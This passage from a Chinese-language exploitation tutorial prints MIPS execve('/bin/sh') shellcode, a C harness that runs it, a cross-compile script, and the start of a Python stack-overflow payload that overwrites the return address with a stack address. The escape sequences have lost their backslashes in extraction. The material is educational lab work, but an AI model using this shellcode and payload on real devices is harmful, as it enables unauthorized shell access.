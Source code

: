 ```
#include &lt;stdio.h&gt;
char shellcode[] = `{`
"x24x06x06x66"
"x04xd0xffxff"
"x28x06xffxff"
"x27xbdxffxe0"
"x27xe4x10x01"
"x24x84xf0x1f"
"xafxa4xffxe8"
"xafxa0xffxec"
"x27xa5xffxe8"
"x24x02x0fxab"
"x00x00x00x0c"
"x2fx62x69x6e"
"x2fx73x68x00"
`}`;
void main()
`{`
    void (*s)(void);
    printf("sc size %dn", sizeof(shellcode));
    s = shellcode;
    s();
    printf("[*] work done.n");
`}`
```

接着使用如下的脚本：

```
src=$1
dst=$2
~/qemu_dependence/buildroot-mips/output/host/bin/mips-linux-gcc $src -static -o  $dst
```

指令命令类似于：

```
bash comp-mips.sh execve_c.c execve_c
```

就可以完成编译



## 4. 构造payload测试shellcode

到了这一步，payload的构造方式其实和之前介绍的文章差不多的了。唯一的差别就在于，这回需要覆盖的RA的地址，就是堆栈的起始地址，因此，一个样例的payload可以是：

```
import struct
print '[*] prepare shellcode',

#shellcode
shellcode = "A"*0x19C             # padding buf
shellcode += struct.pack("&gt;L",0x408002D8)     # this is the sp address for executing cmd.
shellcode += "x24x06x06x66"
shellcode += "x04xd0xffxff"
shellcode += "x28x06xffxff"
shellcode += "x27xbdxffxe0"
shellcode += "x27xe4x10x01"
shellcode += "x24x84xf0x1f"
shellcode += "xafxa4xffxe8"
shellcode += "xafxa0xffxec"
shellcode += "x27xa5xffxe8"
shellcode += "x24x02x0fxab"
shellcode += "x00x00x00x0c"
shellcode += "x2fx62x69x6e"
```